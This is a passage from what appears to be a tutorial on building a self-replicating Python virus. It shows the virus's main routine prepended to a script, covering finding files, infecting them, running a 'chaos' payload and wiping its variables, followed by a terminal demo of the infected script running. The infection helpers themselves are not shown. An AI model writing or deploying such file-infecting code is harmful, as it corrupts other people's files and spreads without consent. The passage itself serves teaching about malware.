 ```python

# entry point 

try:
    # retrieve the virus code from the current infected script
    virus_code = get_virus_code() 

    # look for other files to infect
    for file in find_files_to_infect():
        infect(file, virus_code)

    # call the payload
    summon_chaos()

# except:
#     pass

finally:
    # delete used names from memory
    for i in list(globals().keys()):
        if(i[0] != '_'):
            exec('del {}'.format(i))

    del i

# end-virus
# numbers.py

import random

random.seed()

for _ in range(10):
  print (random.randint(0,100))
```

And as expected, now we have our virus before the real code.

Let's create another `.py` file in the same directory, just a simple "hello world" program:

```bash
/playgrounds/python/first ❯ echo 'print("hello world")' > hello.py
```

and now, let's execute the `[numbers.py](http://numbers.py)` program:

```bash
/playgrounds/python/first ❯ python numbers.py                                                                          02:35:12 PM
We are sick, fucked up and complicated
We are chaos, we can't be cured
35
43
89
37
92
71
4
21
83
47
```
